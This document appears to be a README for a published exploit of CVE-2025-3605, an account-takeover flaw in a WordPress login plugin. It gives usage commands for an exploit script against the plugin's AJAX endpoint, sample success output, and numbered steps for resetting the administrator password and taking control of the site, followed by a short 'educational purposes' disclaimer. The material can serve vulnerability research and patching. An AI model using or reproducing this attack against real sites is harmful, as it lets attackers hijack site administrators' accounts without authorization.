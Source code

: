 
# 🚀 CVE-2025-3605 Exploit Guide

### 🛡️ Vulnerability Summary
The **Frontend Login and Registration Blocks** plugin for WordPress (versions <= 1.0.7) is vulnerable to **privilege escalation via account takeover**.  
The issue arises because the plugin does **not validate user identity** when updating sensitive details like email through the `flr_blocks_user_settings_handle_ajax_callback()` function.

✅ **Impact:**  
An unauthenticated attacker can change the administrator's email, trigger the "Forgot Password" process, and reset the admin password, gaining full control.

---

### 💥 Proof of Concept (PoC)
The included Python script automates the exploitation process by targeting the vulnerable AJAX endpoint:

```
/wp-admin/admin-ajax.php
```

It updates the email of the targeted user (typically user_id `1` for admin) to an attacker-controlled email.

---

### 📦 Included Script

**Filename:** `CVE-2025-3605.py`

```
python CVE-2025-3605.py --url http://target-site/wordpress --user_id 1 --mail attacker@example.com
```

✅ **Default values:**  
- `--user_id`: 1 (default admin)  
- `--mail`: NxploitBot@gmail.com

---

### 🖥️ Usage & Help

To see the help menu, run:

```
python CVE-2025-3605.py --help
```

Output:
```
[+] Starting exploit script...
usage: a.py [-h] --url URL [--user_id USER_ID] [--mail MAIL]

Frontend Login and Registration Blocks Plugin <= 1.0.7 is vulnerable to Privilege Escalation # By Nxploited (Khaled Alenazi)

options:
  -h, --help            show this help message and exit
  --url, -u URL         Target URL, e.g., http://192.168.100.74:888/wordpress
  --user_id, -id USER_ID
                        User ID to target (default: 1)
  --mail, -mail MAIL    Email to set (default: NxploitBot@gmail.com)
```

✅ Example Run:
```
python CVE-2025-3605.py -u http://192.168.100.74:888/wordpress -id 1 -mail attacker@example.com
```

---

### 🎯 Expected Output

✅ On success:
```
[+] Starting exploit script...
[+] Sending exploit to http:/target.com/wp-admin/admin-ajax.php/wp-admin/admin-ajax.php
[+] Exploit successful! Response: {"status":true,"message":"Operation has been completed successfully."}
[+] Final Step: Go to the Forgot Password page and reset the admin password using the new email!
Exploit By : Khaled_alenazi ( Nxploited )
```

❌ On failure:
```
[!] Exploit failed. HTTP Status: 400
[!] Response: 0
```

---

### 🔑 After Exploitation

1️⃣ Navigate to:
```
http://target-site/wordpress/wp-login.php
```

2️⃣ Enter the **new email** you set (`attacker@example.com`).

3️⃣ Request a password reset.

4️⃣ Set a new password.

5️⃣ Login as **administrator** and enjoy full access.

---

### ⚠️ Disclaimer

This exploit and script are provided **for educational and authorized testing purposes only**.  
Any unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.

---

*By: Khaled Alenazi (Nxploited)*
